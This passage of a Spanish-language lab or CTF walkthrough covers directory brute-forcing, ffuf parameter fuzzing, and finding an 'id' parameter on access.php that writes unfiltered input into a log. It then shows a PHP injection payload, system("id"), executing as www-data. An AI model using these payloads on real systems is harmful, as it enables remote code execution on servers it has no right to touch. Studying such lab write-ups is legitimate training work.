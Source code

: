 ```
Progress: 441120 / 441122 (100.00%)
===============================================================
2023/03/09 14:18:20 Finished
===============================================================
```

Encontramos un log.php, access.php y clearlogs.php

La pagina de access.php esta vacia, sin embargo inspeccionandola encontramos un ``<img src="">``
Esto nos puede indicar que quiza tenga que enviarle algun parametro, asi que procedere a fuzzear

```
ffuf -w /usr/share/seclists/Discovery/Web-Content/url-params_from-top-55-most-popular-apps.txt -u http://10.0.2.24/access.php?FUZZ=FUZZ -t 200 -fs 12

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.0.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.0.2.24/access.php?FUZZ=FUZZ
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/url-params_from-top-55-most-popular-apps.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 200
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
 :: Filter           : Response size: 12
________________________________________________

[Status: 200, Size: 14, Words: 2, Lines: 1, Duration: 0ms]
    * FUZZ: id

:: Progress: [211/211] :: Job [1/1] :: 46 req/sec :: Duration: [0:00:04] :: Errors: 0 ::
```

Encontramos un posible parametro 'id'

Probando el parametro id, vemos que el funcionamiento de las paginas es el siguiente:
**access.log :** Escribes mediante el parametro ID, el cual es vulnerable a htmlI y xss y a codigo php.
**log.php :** Nos muestra lo que escribimos en access.log
**clearlog.php :** Borra todos los logs para iniciar de nuevo

Ya sabiendo como funcionan voy a ejecutar codigo mediante php de prueba para que vean como seria:
```
link: http://10.0.2.24/access.php?id=<?php system("id")?>
<img src='<?php system("id")?>'>
```
```
link: http://10.0.2.24/log.php
your logs: uid=33(www-data) gid=33(www-data) groups=33(www-data) 
```
